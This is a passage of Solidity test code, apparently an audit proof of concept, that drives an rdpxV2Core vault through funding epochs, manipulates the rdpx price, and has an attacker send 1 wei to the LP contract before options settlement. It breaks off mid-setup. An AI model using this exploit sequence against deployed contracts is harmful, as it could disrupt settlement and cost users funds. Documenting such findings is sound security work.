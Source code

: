 ```solidity
   skip(86400 * 2);
   vault.updateFundingPaymentPointer();

   // calculate funding
   uint256[] memory strikes = new uint256[](2);
   strikes[0] = 15e6;
   strikes[1] = 24000000;
   vault.calculateFunding(strikes);

   // bond 1 dpxETH
   rdpxV2Core.bond(1 * 1e18, 0, address(this));

   // provide funding
   vault.addToContractWhitelist(address(rdpxV2Core));

   // send funding to rdpxV2Core and call sync
   uint256 funding = vault.totalFundingForEpoch(
     vault.latestFundingPaymentPointer()
   );
   weth.transfer(address(rdpxV2Core), funding);
   rdpxV2Core.sync();

   rdpxV2Core.provideFunding();

   // bond 1 dpxETH
   rdpxV2Core.bond(1 * 1e18, 0, address(this));

   // skip 7 days
   skip(86400 * 7);
   vault.updateFundingPaymentPointer();
   receiptTokens1 = rdpxV2Core.bond(1 * 1e18, 0, address(this));

   // calculate and pay funding
   vault.calculateFunding(strikes);

   // send funding to rdpxV2Core and call sync
   funding = vault.totalFundingForEpoch(vault.latestFundingPaymentPointer());
   weth.transfer(address(rdpxV2Core), funding);
   rdpxV2Core.sync();
   rdpxV2Core.provideFunding();

   // decrease price of rdpx (0.2weth)
   path[1] = address(weth);
   path[0] = address(rdpx);
   router.swapExactTokensForTokens(
     2000e18,
     0,
     path,
     address(this),
     block.timestamp
   );
   rdpxPriceOracle.updateRdpxPrice(2 * 1e7);
   // ATTACKER TRANSFERS 1 WEI to LP CONTRACT 
   console.log("Attacker transferring 1 wei to LP contract before settle is called");
   weth.transfer(address(vaultLp), 1);

   // settle options
   uint256[] memory ids = new uint256[](6);
   ids[0] = 2;
   ids[1] = 3;
   ids[2] = 4;
   ids[3] = 5;
   ids[4] = 6;
```